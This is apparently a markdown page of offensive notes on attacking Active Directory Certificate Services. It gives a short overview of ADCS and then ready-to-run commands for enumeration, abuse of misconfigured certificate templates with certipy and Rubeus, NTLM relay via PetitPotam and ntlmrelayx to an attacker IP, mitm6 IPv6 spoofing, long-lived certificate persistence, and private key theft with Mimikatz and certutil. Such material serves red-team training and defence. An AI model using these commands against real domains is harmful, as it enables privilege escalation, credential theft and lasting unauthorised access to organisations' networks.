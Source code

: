 ```yaml
---
layout: blank
pagetitle: Attacking Active Directory Certificate Services
---
```



## What is ADCS

**Overview of ADCS**
- ADCS implements Public Key Infrastructure (PKI) in Windows domains, providing certificates for secure communication, user authentication, and more.
- It integrates tightly with Active Directory, enabling automated certificate issuance and renewal.
- Common uses include:
    - Smart card logon
    - Encrypting File System (EFS)
    - Wi-Fi and VPN authentication

**Key Components**
- Certificate Authority (CA): Issues, revokes, and manages certificates.
- Enrollment Services: Allows users and computers to request certificates via interfaces like the Certificate Enrollment Web Service (CES).
- Certificate Templates: Define certificate properties, validity periods, and permissions.

### Enumeration
The first step in attacking ADCS is understanding the configuration of the CA, its templates, and associated permissions. Enumerating these components reveals potential misconfigurations that can be exploited.

- **Certipy** - Python tool for ADCS enumeration:
```
certipy find -u {username} -p {password} -dc-ip {dc_IP} -text -stdout
```
    - Look for `[!] Vulnerabilities` in templates and certificates
- **ldapsearch** - Query AD objects for ADCS-related information:
```
ldapsearch -x -h {DC_IP} -b "CN=Configuration,DC=domain,DC=com" "(objectClass=pKIEnrollmentService)"
```
- **Certutil** - View available certificate templates:
```
certutil -template
```

### Common Vulnerabilities
ADCS often suffers from misconfigurations or insecure defaults that attackers can exploit. Here are the primary vulnerabilities:

- **Misconfigured Certificate Templates**:
    - Templates allowing _Authenticated Users_ to enroll enable low-privilege users to request certificates for accounts with higher privileges.
    - Certificate request agent rights can be abused to impersonate other users.
- **NTLM Relay Attacks**:
    - ADCS web enrollment services often lack Extended Protection for Authentication (EPA), making them vulnerable to NTLM relaying.
- **Vulnerable DACLs**:
    - Improper permissions on CA objects can allow attackers to modify or issue unauthorized certificates.
Insecure configurations allow attackers to escalate privileges by obtaining certificates for sensitive accounts or performing man-in-the-middle attacks.

### Attack Techniques

**Exploitation of Misconfigured Certificate Templates**
Certificate templates define which users can request specific types of certificates. When a template is misconfigured to allow enrollment by "Authenticated Users," any domain user can request a certificate that provides elevated privileges. This is a common misstep in ADCS deployments.

- Find templates and identify misconfigurations:
```
certipy find -u {domain/username} -p {password} -dc-ip {DC_IP}
```
- Request a certificate from a vulnerable template:
```
certipy request -u {domain/username} -p {password} -template {template_name}  -dc-ip {DC_IP}
```
- Authenticate using the obtained certificate:
```
Rubeus.exe asktgt /user:{username} /certificate:{path_to_cert} /password:{password}
```

**NTLM Relay with PetitPotam**
The PetitPotam attack coerces a target server to authenticate to an attacker-controlled machine via NTLM. When relayed to the ADCS web enrollment service, this can be used to request certificates that allow domain escalation.
- Trigger authentication via PetitPotam:
```
PetitPotam.py {target_DC_IP} {attacker_IP}
```
- Relay NTLM to ADCS:
```
ntlmrelayx.py -t http://{ADCS_IP}/certsrv/certfnsh.asp
```
- Extract and use the resulting certificate to impersonate privileged users.

**Machine-in-the-Middle with mitm6**
ADCS systems are often vulnerable to IPv6 spoofing attacks. Tools like mitm6 allow attackers to intercept NTLM traffic, relaying it to request certificates for privilege escalation.
- Launch IPv6 spoofing:
```
mitm6 -d {domain}
```
- Relay NTLM to ADCS:
```
ntlmrelayx.py -6 -t ldap://{DC_IP} --adcs
```

**Persistence with Certificates**

Certificates are an excellent mechanism for persistence because they allow authentication without passwords. By requesting a long-lived certificate, attackers can maintain access even if the compromised user’s password is changed.

- Request a certificate with extended validity:
```
certipy request -u {username} -p {password} -d {domain} -template {template_name} -validity {days}
```
- Export the certificate for reuse:
```
certutil -exportPFX -p {password} -cert {cert_name} {output_path}
```
- Authenticate using the certificate:
```
Rubeus.exe asktgt /user:{username} /certificate:{path_to_cert}
```

**Certificate Theft**
Attackers can extract private keys and certificates from systems to impersonate users or maintain persistence.
- Dump private keys using Mimikatz:
```
crypto::capi
```
- Export certificates with private keys:
```
certutil -exportPFX -user -p {password} my {output_file}
```

Stolen certificates can be used in attacks such as pass-the-certificate to impersonate users or maintain access to systems.
